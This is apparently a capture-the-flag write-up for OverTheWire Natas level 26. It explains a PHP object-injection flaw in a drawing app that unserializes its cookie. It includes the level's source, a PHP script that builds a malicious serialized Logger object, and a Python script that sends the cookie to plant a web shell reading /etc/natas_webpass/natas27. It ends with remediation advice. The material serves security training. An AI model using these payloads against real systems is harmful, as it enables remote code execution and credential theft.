

# [Over The Wire (natas)] – [[Platform](http://natas26.natas.labs.overthewire.org/)] – [10/08/2025]

## Objective
Find the password for the next Natas level by exploiting the vulnerability on this page.  

## Environment / Platform
- Platform: OverTheWire – Natas
- Level: [26]
- Difficulty: [Medium]

## Tools Used
- Chromium Browser

## Login
1. Logged in with credentials:
   - **Username**: `natas26
   - **Password**: `XXXXXX`
  
2. Screenshot:
   
   
   - this prompted that I should check the sourcecode by clicking the link `http://natas26.natas.labs.overthewire.org/index-source.html`

3. Observed Page Content

```php
      <?php
         // sry, this is ugly as hell.
         // cheers kaliman ;)
         // - morla

         class Logger{
            private $logFile;
            private $initMsg;
            private $exitMsg;

            function __construct($file){
                  // initialise variables
                  $this->initMsg="#--session started--#\n";
                  $this->exitMsg="#--session end--#\n";
                  $this->logFile = "/tmp/natas26_" . $file . ".log";

                  // write initial message
                  $fd=fopen($this->logFile,"a+");
                  fwrite($fd,$this->initMsg);
                  fclose($fd);
            } # this method takes in the input of file and then instantiates the 3 properties of logFile, initMsg, and exitmsg. Then it opens the logFile appending the initMsg and closes the file. 

            function log($msg){
                  $fd=fopen($this->logFile,"a+");
                  fwrite($fd,$msg."\n");
                  fclose($fd);
            } # this method takes in the input of "msg" opens up the logfile and writes the "msg" and closes the file. 

            function __destruct(){
                  // write exit message
                  $fd=fopen($this->logFile,"a+");
                  fwrite($fd,$this->exitMsg);
                  fclose($fd);
            } # this method opens the logFile and then appends the exitMsg and closes the file. 
         } 

         function showImage($filename){
            if(file_exists($filename))
                  echo "";
         } # this function takes in the input of filename and checks if the file exists. If so, will return the html element of img with the source pointing to said file. 

         function drawImage($filename){
            $img=imagecreatetruecolor(400,300);
            drawFromUserdata($img);
            imagepng($img,$filename);
            imagedestroy($img);
         } # this function takes in the input of "filename" then creates a canvas of 400x300 pixels. Draws the on the canvas with the customers input information and saves it as the filename given. Then finally destroys the canvas for cleanup. 

         function drawFromUserdata($img){
            if( array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
                  array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){

                  $color=imagecolorallocate($img,0xff,0x12,0x1c);
                  imageline($img,$_GET["x1"], $_GET["y1"],
                                 $_GET["x2"], $_GET["y2"], $color);
            }

            if (array_key_exists("drawing", $_COOKIE)){
                  $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
                  if($drawing)
                     foreach($drawing as $object)
                        if( array_key_exists("x1", $object) &&
                              array_key_exists("y1", $object) &&
                              array_key_exists("x2", $object) &&
                              array_key_exists("y2", $object)){

                              $color=imagecolorallocate($img,0xff,0x12,0x1c);
                              imageline($img,$object["x1"],$object["y1"],
                                    $object["x2"] ,$object["y2"] ,$color);

                        }
            }
         } # this function takes the input of img and then checks to see if all four keys for the GET request exist as x1, x2, y1, y2. If so, then will set color of a slightly dark hue of red. Will draw a line on the img by coordinates of x,y pairs from start to finish. Next it will check if the cookie has a key of "drawing". If so it will decode in base64 and then unserialize the key value and instantiate "drawing". For each object inside of drawing it will check if all four coordinates are there and then draw the line for object. 

         function storeData(){
            $new_object=array();

            if(array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
                  array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
                  $new_object["x1"]=$_GET["x1"];
                  $new_object["y1"]=$_GET["y1"];
                  $new_object["x2"]=$_GET["x2"];
                  $new_object["y2"]=$_GET["y2"];
            }

            if (array_key_exists("drawing", $_COOKIE)){
                  $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
            }
            else{
                  // create new array
                  $drawing=array();
            }

            $drawing[]=$new_object;
            setcookie("drawing",base64_encode(serialize($drawing)));
         } # This function instantiates an array of "new_object". Then it will checkif the four coordinates are present in the GET request, if so will store the object. Next it will check if the key "drawing" is present in the cookie, if so will instantiate "drawing" by taking the value and decoding in base64 and then unserializing it. If not, will create a new array and set it as "drawing". Then you append "new_object" to the "drawing" array. You finally set cookie to a serialized and base64 enconded representation of the "drawing" array. 
      ?>


      <?php
         session_start();

         if (array_key_exists("drawing", $_COOKIE) ||
            (   array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
                  array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET))){
            $imgfile="img/natas26_" . session_id() .".png";
            drawImage($imgfile);
            showImage($imgfile);
            storeData();
         }

         # This section of code first starts a session and then checks to see if the key "drawing" present in cookie or if all four coordinates exist in the GET request. Then using a filename concatenation of "img/natas26_" combined with the session_id and ".png". Finally we draw, show and store the image. 

      ?>


```
  
---

     
4. Steps taken (PHP Object Injection & Serialization):

   1. First thing I did was check how the site was inteded to be used. I submitted the payload `?x1=50&y1=250&x2=200&y2=50`. This drew a line on the page and created a cookie value of `drawing`. I attempted two more payloads `?x1=200&y1=50&x2=350&y2=250` and `?x1=350&y1=250&x2=50&y2=250`. This drew the triangle as expected.

   2. I wanted to see if it really was encoded by serealization and base64. The cookie value was `YTozOntpOjA7YTo0OntzOjI6IngxIjtzOjI6IjUwIjtzOjI6InkxIjtzOjM6IjI1MCI7czoyOiJ4MiI7czozOiIyMDAiO3M6MjoieTIiO3M6MjoiNTAiO31pOjE7YTo0OntzOjI6IngxIjtzOjM6IjIwMCI7czoyOiJ5MSI7czoyOiI1MCI7czoyOiJ4MiI7czozOiIzNTAiO3M6MjoieTIiO3M6MzoiMjUwIjt9aToyO2E6NDp7czoyOiJ4MSI7czozOiIzNTAiO3M6MjoieTEiO3M6MzoiMjUwIjtzOjI6IngyIjtzOjI6IjUwIjtzOjI6InkyIjtzOjM6IjI1MCI7fX0=`. 

   3. After decoded in base64 I got a serialized value of `b'a:3:{i:0;a:4:{s:2:"x1";s:2:"50";s:2:"y1";s:3:"250";s:2:"x2";s:3:"200";s:2:"y2";s:2:"50";}i:1;a:4:{s:2:"x1";s:3:"200";s:2:"y1";s:2:"50";s:2:"x2";s:3:"350";s:2:"y2";s:3:"250";}i:2;a:4:{s:2:"x1";s:3:"350";s:2:"y1";s:3:"250";s:2:"x2";s:2:"50";s:2:"y2";s:3:"250";}}'`. 

   4. This means that the vulnerability was most likely in here. We needed to inject a serialized and enconded payload as a cookie value we could cause something to happen. 

   5. Since the Logger class was not actually used in the sourcecode that would mean that we can make a script in php to try and return the password for us. By assigning a log filename to something easy like  `img/sneaky.php` and swapping the hardcoded message as a script. 

   ```php
            
      <?php

      class Logger{
            private $logFile;
            private $initMsg;
            private $exitMsg;

            function __construct(){
                  // initialise variables
                  $this->initMsg="<?php system('cat /etc/natas_webpass/natas27'); ?>";
                  $this->exitMsg="<?php system('cat /etc/natas_webpass/natas27'); ?>";
                  $this->logFile = "img/sneaky.php";

                  // write initial message
                  $fd=fopen($this->logFile,"a+");
                  fwrite($fd,$this->initMsg);
                  fclose($fd);
            } 

            function log($msg){
                  $fd=fopen($this->logFile,"a+");
                  fwrite($fd,$msg."\n");
                  fclose($fd);
            } 

            function __destruct(){
                  // write exit message
                  $fd=fopen($this->logFile,"a+");
                  fwrite($fd,$this->exitMsg);
                  fclose($fd);
            } 
      } 

      $object = new Logger();
      echo( base64_encode(serialize($object)) )

      ?>

   ``` 
   6. We then just had a submit a GET request from the "filename" `img/sneaky.php`.

   7. Last step was to create a python script to run the attack. 

   ```python
      import requests
      from requests.auth import HTTPBasicAuth

      username = "natas26"
      password = "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX" # replace with actual

      def main():
         # --- Configuration ---
         url = f"http://{username}.natas.labs.overthewire.org/"
         auth = HTTPBasicAuth(username, password)  
         session = requests.Session()

         session.cookies['drawing'] = "Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxNDoiaW1nL3NuZWFreS5waHAiO3M6MTU6IgBMb2dnZXIAaW5pdE1zZyI7czo1MDoiPD9waHAgc3lzdGVtKCdjYXQgL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4iO3M6MTU6IgBMb2dnZXIAZXhpdE1zZyI7czo1MDoiPD9waHAgc3lzdGVtKCdjYXQgL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4iO30="
         
         response = session.get(url, auth=auth, cookies=session.cookies )

         response = session.get(url+"/img/sneaky.php", auth=auth, cookies=session.cookies)
         print(response.text)
         
         print("="*32)


      if __name__ == "__main__":
         main()
   ```


---

🔑 **Why this works**: 
   
   - User-supplied `drawing` cookie is` base64_decode → unserialize` without validation, allowing PHP object injection.

   - Attacker can craft a serialized `Logger` object whose properties point to a writable webroot filename `(img/sneaky.php)` and include PHP payloads in init/exit messages.

   - `__construct / __destruct` (or other magic methods) perform file writes, so deserialization triggers writing attacker-controlled PHP into webroot.

   - The application later serves files from `img/`, so the attacker can request the written `sneaky.php` to execute arbitrary commands as the web user.

   - Coordinate inputs and cookie handling are not type-validated, making it easy to place malicious serialized data into the cookie and trigger the flow.

---

💥 **Impact**

   - Remote Code Execution as the webserver user (ability to run arbitrary commands via the written PHP).

   - Disclosure of sensitive files (e.g., `/etc/natas_webpass/natas27`) and any data readable by the web process.

   - Full compromise of the challenged application environment: data exfiltration, pivoting, and persistence while webroot is writable.

   - Bypass of intended application logic (image drawing) to achieve server-side file creation and execution.

   - High confidence of impact in similar real-world apps that unserialize untrusted data — can lead to complete application takeover.   


---
  
🛠️ **Remediation**


   - Never `unserialize()` untrusted input. Replace with safe formats (e.g., `json_encode` / `json_decode`) for cookie or client-side data.

   - If deserialization is unavoidable, use `unserialize($data, ['allowed_classes' => false])` or an explicit allowlist of safe classes.

   - Move state storage server-side (sessions, DB) rather than storing serialized objects in client-controlled cookies.

   - Validate and sanitize all inputs: enforce strict numeric casting for coordinates `(intval/filter_var)`, reject unexpected keys, and limit cookie content length.

   - Prevent arbitrary file writes to webroot: disallow user-controlled filenames, use safe temp directories outside the document root, and enforce strict file-permission policies.

   - Disable unsafe PHP functions where possible (e.g., `system, exec`) or use application-level command-safety controls.

   - Set strong filesystem and webserver protections: run web process with least privilege, enable `open_basedir`, and configure the server to not execute uploaded files in writable directories.

   - Add HttpOnly/SameSite flags to cookies and consider integrity checks (HMAC) on client-stored data to detect tampering.